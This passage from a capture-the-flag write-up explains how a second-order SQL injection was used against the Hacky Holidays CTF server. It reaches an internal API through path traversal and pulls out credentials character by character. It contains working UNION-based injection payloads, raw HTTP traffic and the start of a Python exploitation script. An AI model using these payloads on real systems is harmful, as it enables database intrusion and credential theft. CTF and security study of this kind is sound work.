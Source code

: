 This only shows us data we already know and still does not help us accessing arbitrary API endpoints...

After some more thinking I had the idea to inject SQL into the SQL query and hope that the application is vulnerable to second-order sql injection. This worked indeed - I used the following proof-of concept payload for producing a single image link:

```
0' UNION ALL SELECT '0\' union all select 1,\'hash\',\'../api\' -- ',1,'albumtitle'-- -
```

JSON-decoding the image link's `data` parameter confirms that it is possible to inject into the URL:

```
{"image":"r3c0n_server_4fdk59\/uploads\/..\/api","auth":"38122d477657c1a0c9ba873c11017497"}
```

As the `auth` parameter is server-generated, it is valid, which can be confirmed by opening the image link:

```
GET /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGkiLCJhdXRoIjoiMzgxMjJkNDc3NjU3YzFhMGM5YmE4NzNjMTEwMTc0OTcifQ== HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close


HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 31 Dec 2020 02:05:21 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 29

Invalid content type detected
```

This returns an error message about the content type (probably because an image is expected), but shows that the injection can possibly be used for querying the API. Great!

I wrote a Python script for finding API endpoints and found out that there seems a valid endpoint under `/r3c0n_server_4fdk59/api/user`. However when trying to access it, I got the error message `Invalid content type detected` again!

After being stuck for a bit, I found out that the endpoint accepts the `GET` parameters `username` and `password` as well. Not sure if they were totally vulnerable to SQLI again, but it was possible to query username and password character by character by using `%` as a wildcard, because whenever the query got results, the error message `Invalid content type detected` was returned.

The following script was used to find the API endpoints and retrieve valid credentials:

```
import re
import requests
import string

from urllib3.exceptions import InsecureRequestWarning

# Suppress only the single warning from urllib3 needed.
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

BASE_URL = "https://hackyholidays.h1ctf.com"

# proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }
proxies = {}

def get_hash(s, payload):
    params = { "hash": f"0' UNION ALL SELECT '0\\' union all select 1,\\'hash\\',\\'{payload}\\' -- ',1,'albumtitle'-- -" }
```
